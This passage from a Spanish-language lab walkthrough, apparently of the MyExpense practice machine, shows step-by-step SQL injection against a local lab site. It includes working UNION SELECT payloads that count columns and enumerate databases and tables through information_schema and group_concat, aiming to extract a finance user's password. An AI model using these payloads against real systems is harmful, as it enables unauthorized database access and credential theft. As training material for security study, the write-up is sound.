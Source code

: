 **Resultado:**  
Detectamos vulnerabilidad SQL → determinamos número de columnas → comenzamos a volcar datos hasta extraer la contraseña del usuario objetivo.

**Explicación:**  
La web es vulnerable a inyecciones SQL, por lo que podemos extraer información sensible y acceder como usuario del departamento de finanzas para tramitar el pago.

**Problema:**  
En la consulta `http://192.168.1.54/site.php?id=2 union select 1,2-- -` no veíamos nada → algo fallaba.

**Solución:**  
Cambiamos el id a uno inexistente:  
`http://192.168.1.54/site.php?id=-1 union select 1,2-- -`  
→ y ya se mostraron correctamente los datos.

---

### 20º Acceso como usuario de finanzas --> Inyección SQL parte 3

**Acción:**  
`http://192.168.1.54/site.php?id=-1 UNION SELECT 1,schema_name FROM information_schema.schemata-- -`  
→ No devuelve nada.  
Probamos con LIMIT:  
`?id=-1 UNION SELECT 1,schema_name FROM information_schema.schemata LIMIT 0,1-- -`  
→ Vamos modificando el índice de LIMIT para listar todas las bases de datos.  
O también se puede usar `group_concat` para obtener todos los resultados de una vez:  
`http://192.168.1.54/site.php?id=-1 UNION SELECT 1,group_concat(schema_name) from information_schema.schemata-- -`  
→ Vemos: `1 (information_schema,sys,mysql,performance_schema,myexpense)`

**Resultado:**  
Listado completo de las bases de datos disponibles en el sistema.

**Explicación:**  
Por limitaciones del motor o de la propia web, hay que ir volcando datos poco a poco (`LIMIT`) o bien usar funciones como `group_concat()` para visualizar más resultados.

**Problema:**  
La consulta sin `LIMIT` no devolvía datos.

**Solución:**  
Probar con `LIMIT` y luego con `group_concat`.

---

### 21º Acceso como usuario de finanzas --> Inyección SQL parte 4

**Acción:**  
Listamos las tablas dentro de la base de datos `myexpense`:  
`http://192.168.1.54/site.php?id=-1 UNION SELECT 1,group_concat(table_name) from information_schema.tables where table_schema='myexpense'-- -`  
→ Vemos: `1 (site,message,expense,user)`
